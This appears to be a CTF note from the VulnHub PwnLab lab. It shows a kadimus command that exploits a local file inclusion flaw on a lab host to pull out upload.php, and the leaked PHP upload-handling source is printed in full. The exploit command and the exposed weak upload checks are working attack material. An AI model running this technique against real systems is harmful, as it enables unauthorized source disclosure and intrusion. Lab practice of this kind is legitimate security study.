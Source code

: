 ```bash
root@kali:/mnt/hgfs/my-notes-and-snippets/notes/ctfs/vulnhub/pwnlab/loot# kadimus -u http://192.168.56.103/?page=login --parameter page --get-source --filename "upload" -O upload.php  #--proxy http://127.0.0.1:808
 _  __         _ _
| |/ /__ _  __| (_)_ __ ___  _   _ ___
| ' // _` |/ _` | | '_ ` _ \| | | / __|
| . \ (_| | (_| | | | | | | | |_| \__ \
|_|\_\__,_|\__,_|_|_| |_| |_|\__,_|___/

  v1.1 - LFI Scan & Exploit Tool (@hc0d3r - P0cL4bs Team)

[22:19:17] [INFO] trying get source code of file: upload
[22:19:17] [INFO] valid base64 returned:
[22:19:18] [INFO] check the output file

<?php
session_start();
if (!isset($_SESSION['user'])) { die('You must be log in.'); }
?>
<html>
    <body>
        <form action='' method='post' enctype='multipart/form-data'>
            <input type='file' name='file' id='file' />
            <input type='submit' name='submit' value='Upload'/>
        </form>
    </body>
</html>
<?php
if(isset($_POST['submit'])) {
    if ($_FILES['file']['error'] <= 0) {
        $filename  = $_FILES['file']['name'];
        $filetype  = $_FILES['file']['type'];
        $uploaddir = 'upload/';
        $file_ext  = strrchr($filename, '.');
        $imageinfo = getimagesize($_FILES['file']['tmp_name']);
        $whitelist = array(".jpg",".jpeg",".gif",".png");

        if (!(in_array($file_ext, $whitelist))) {
            die('Not allowed extension, please upload images only.');
        }

        if(strpos($filetype,'image') === false) {
            die('Error 001');
        }

        if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg' && $imageinfo['mime'] != 'image/jpg'&& $imageinfo['mime'] != 'image/png') {
            die('Error 002');
        }

        if(substr_count($filetype, '/')>1){
            die('Error 003');
        }

        $uploadfile = $uploaddir . md5(basename($_FILES['file']['name'])).$file_ext;

        if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)) {
            echo "<img src=\"".$uploadfile."\"><br />";
        } else {
            die('Error 4');
        }
    }
}
```